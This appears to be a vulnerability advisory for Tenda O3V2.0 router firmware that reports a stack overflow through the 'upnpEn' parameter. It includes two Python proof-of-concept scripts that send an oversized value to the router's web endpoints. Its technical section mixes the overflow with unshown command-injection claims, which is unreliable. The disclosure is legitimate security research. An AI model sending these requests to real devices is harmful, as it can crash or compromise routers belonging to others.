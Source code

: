 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `upnpEn` POST parameter accepted by `/goform/setNetworkService` is written to the configuration key `adv.upnp.en` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getNetworkService`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type**:Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `adv.upnp.en`.

## Technical details

- The `setNetworkService` endpoint accepts a POST parameter `upnpEn` and calls `SetValue("adv.upnp.en", Var)` without enforcing a maximum length or sanitizing shell metacharacters.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_111238.png)

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_111355.png)

- The `getNetworkService` endpoint reads `upnpEn` via `GetValue("adv.upnp.en", v64)` and passes it into a shell-invoking context (or a system call) without sanitization, making stored payloads executed when the endpoint is processed.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_111649.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `adv.upnp.en` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setNetworkService"
payload =  b"a"*1000

data = {"upnpEn":payload}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getNetworkService"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)
